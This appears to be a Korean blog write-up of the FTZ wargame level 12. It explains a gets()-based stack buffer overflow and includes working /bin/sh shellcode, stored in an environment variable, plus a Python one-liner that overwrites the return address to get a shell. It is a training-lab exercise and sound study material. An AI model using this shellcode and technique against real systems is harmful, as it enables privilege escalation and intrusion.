 ```yaml
---
title:  "[FTZ] level 12"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-21 00:02:29

---
```


# level 11

**level12 / it is like this**

힌트

![image](https://user-images.githubusercontent.com/69203345/144245866-c8d46fca-5e50-46b0-a53c-bcc3ecb9335c.png)

![image](https://user-images.githubusercontent.com/69203345/144246006-4d8af91c-7b7c-4d3a-b0cf-305568326083.png)

level 11 로 들어간줄...ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ  

이번엔 gets로 받는다  
gets함수 역시 문자열의 길이를 확인하지 않기 때문에 버퍼오버플로우에 취약하다

![image](https://user-images.githubusercontent.com/69203345/144246984-77f63a82-415a-435d-9dea-c6c753a425b8.png)

일단 해보자  

0x08048473 <main+3>: sub esp,0x108  
char str[256]의 0x100 공간을 확보한후 dummy 0x8만큼 확보했다  
총 264byte 공간확보

0x08048479 <main+9>: sub esp,0x8  
총 272byte 공간확보

아마 스택의 구조는 level11과 같지 않을까 싶다

높은주소

[ RET(4) ]  
[ SFP(4) ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

이번에는 환경변수로 해결  
tmp 폴더로 이동후 아래 명령어 작성

사용할 쉘 코드 주소값을 환경변수로 등록
>$export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

환경변수 SHELLCODE의 주소 값 확인
>$echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c

>$gcc getenv.c -o getenv\\$./getenv

![image](https://user-images.githubusercontent.com/69203345/144251580-8eec3861-c515-4b70-8ef4-c8f0c8f71a02.png)


0xbffffc8e 에 있다고 한다  
0xbffffc8e를 리턴 주소로 잡고 bof 시도  

gets는 입력 대기 상태에서 값을 입력받으므로 
>(python -c 'print"\x90"*268+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

python프로그램을 사용하여 \x90(1byte)를 268만큼 출력 해서 SFP까지 덮음  
RET주소에 ./getenv를 통해 출력된 쉘 코드 주소 값을 채워 넣음

![image](https://user-images.githubusercontent.com/69203345/144253095-60ad4622-522b-4515-a771-a00d03f8044a.png)

환경변수를 이용하면 깔끔하네

다음!